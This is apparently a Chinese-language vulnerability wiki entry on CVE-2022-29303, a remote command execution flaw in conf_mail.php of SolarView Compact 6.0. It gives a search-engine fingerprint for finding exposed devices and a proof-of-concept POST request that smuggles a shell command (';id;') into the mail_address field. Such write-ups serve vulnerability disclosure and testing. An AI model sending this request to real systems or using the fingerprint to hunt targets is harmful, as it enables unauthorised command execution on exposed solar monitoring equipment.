 # SolarView Compact conf_mail.php 远程命令执行漏洞 CVE-2022-29303

## 漏洞描述

SolarView Compact conf_mail.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

 <a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

 <a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72.png)

验证POC

```php
POST /conf_mail.php
  
mail_address=%3Bid%3B&button=%83%81%81%5B%83%8B%91%97%90M 
```

![img](/assets/PeiQi-Wiki/img/1654151685879-7d381c6a-c69d-4837-b57f-691e6303557f.png)